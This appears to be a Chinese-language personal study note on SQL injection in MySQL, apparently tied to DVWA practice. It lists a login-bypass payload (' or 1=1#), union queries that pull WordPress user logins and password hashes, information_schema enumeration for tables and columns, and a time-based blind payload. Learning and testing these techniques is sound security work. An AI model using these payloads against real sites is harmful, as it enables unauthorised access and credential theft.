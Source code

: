 select use();
select database();
select now();


大写 按tab可以补全

show create table users\G


字符串的查询需要加引号
select user,password from mysql.user where user = 'root';
若不加引号，代表查询的字段

数字是不可以作为字段的

#### 基于错误注入
输入单引号，用于判断是否语法报错进而得知是否可以注入



#### 基于or的注入 获取一个表
select user,password from mysql.user where user = 'root' or 1=1；
where后的条件为真


比如：在用户名输入框中输入:’ or 1=1#,密码随便输入，这时候的合成后的SQL查询语句为：
select * from users where username='' or 1=1#' and password=md5('')
　　语义分析：“#”在mysql中是注释符,--也可以用作注释，这样井号后面的内容将被mysql视为注释内容，这样就不会去执行了，换句话说，以下的两句sql语句等价：
select * from users where username='' or 1=1#' and password=md5('')
等价于
select * from users where username='' or 1=1



#### 基于union的注入 获取多个表
union前后字段数量一致

如果对union前的不关注则利用假的条件
例如：
select * from dvwa.users where 1=2 union select user_login,user_pwd,1,2 from wordpress.wp_users;
字段字段不一致，则可以不停的增减字段数尝试
如关注前面的数据则不使用where的假条件


#### information_schema (数据库字典)
查看数据库中所有的表
select * from information_schema.tables\G

查看去重后的所有数据库
select DISTINCT TABLE_SCHEMA from information_schema.tables;
等同于 showdatabases;

select TABLE_SCHEMA，TABLE_NAME from information_schema.tables WHERE TABLE_SCHEMA='HH';

select TABLE_SCHEMA，GROUP_CONCAT(TABLE_NAME) from information_schema.tables GROUP BY TABLE_SCHEMA;

通过前面获取的库与表获取表中的所有列
select COLOUMN_NAME from information_schema.columns WHERE TABLE_SCHEMA='database' and TABLE_NAME='table';


#### 基于时间的盲注
1' and sleep(5)--'

#### 参考文章
- [利用SQL注入漏洞登录后台](https://www.cnblogs.com/sdya/p/4568548.html)
